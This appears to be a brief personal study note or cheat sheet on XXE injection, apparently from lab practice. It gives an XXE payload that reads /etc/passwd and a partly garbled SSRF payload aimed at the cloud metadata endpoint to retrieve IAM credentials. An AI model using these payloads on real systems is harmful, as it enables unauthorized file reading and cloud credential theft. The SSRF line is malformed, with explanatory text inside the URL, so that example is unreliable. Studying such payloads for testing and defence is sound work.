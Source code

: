 # XXE = XML external entity (extensible markup language)

XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data

## LFI

Payload 

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE email [
    <!ENTITY signature SYSTEM "file:///etc/passwd">
    ]>

## SSRF

We use SYSTEM <URL> to try get credentials mayble example for aws

    <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/data/iam/security-credentials/admin. This should return JSON containing the SecretAccessKey"> ]>

# Blind XXE
out of bound skipped, no collaborator and see HTB page

